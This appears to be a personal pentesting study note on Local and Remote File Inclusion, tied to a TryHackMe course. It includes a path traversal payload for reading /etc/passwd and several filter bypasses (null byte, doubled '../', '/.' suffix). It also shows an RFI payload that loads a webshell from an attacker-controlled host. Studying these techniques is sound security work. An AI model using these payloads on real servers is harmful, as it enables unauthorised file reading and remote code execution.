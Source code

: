 Local and Remote File Inclusion vulnerabilities affect web servers with unsanitized inputs into a field used to select a specific file on a device. Good candidates for LFI/RFI are language fields, as these usually serve an entirely different webpage. 

Tools:
- [[Burp Suite]]
# LFI
To test, use the `..` operator to maneuver through the filesystem and select the information you are looking for. Ex: `?site=default&lang=../../../../../../../etc/passwd`. This example is for use in a URL, like in `www.example.com`. To try LFI, add the string above to the URL, like so:
`www.example.com?site=default&lang=../../../../../../etc/passwd`. ==Please DON'T try this on any actual website, including example.com, for obvious legal reasons.==

Methods exist of protecting against this attack that are also able to be bypassed. These include:
- Appending a suffix to the string provided; `/etc/passwd` becomes `/etc/passwd.php`
	- Defeated (before a current version of PHP) by appending `%00` to stop PHP processing the string before the suffix is reached. 
- Filtering out `../` sequences.
	- Defeated by building a string that works after the filter has been applied: `....//` -> `../`
- Forcing the request to select from the current directory; `www/`
	- Defeated by selecting from this directory first, and then traversing out; `www/../../../../../`
- Blacklisting special files; `/etc/passwd` disallowed
	- Defeated by path traversal again; `/etc/passwd` -> `/etc/passwd/.`
Some other vulnerabilities also include:
- Filtering only on one request type. For $\_REQUEST calls, the request can be made as either a GET or a POST, but one method may be filtered while the other is not.

# RFI
RFI is even more problematic, because it can lead to immediate RCE. If a web server is horribly misconfigured, the field can be used to point the file requestor method to an http(s) server serving the file. If the file is an executable format like PHP, a webshell or even reverse shell can be planted on the target host and executed from the browser.  Ex: `?site=default&lang=http://<my ip>/webshell.php`. 

*Even if a webshell cannot be uploaded and called into* we may still upload a 
PHP reverse shell and gain command execution on the web server.

For more information on File Inclusion vulnerabilities, see the TryHackMe Junior Pentester Path. In its' Intro to Web Hacking module, they have a room on File Inclusion vulnerabilities. 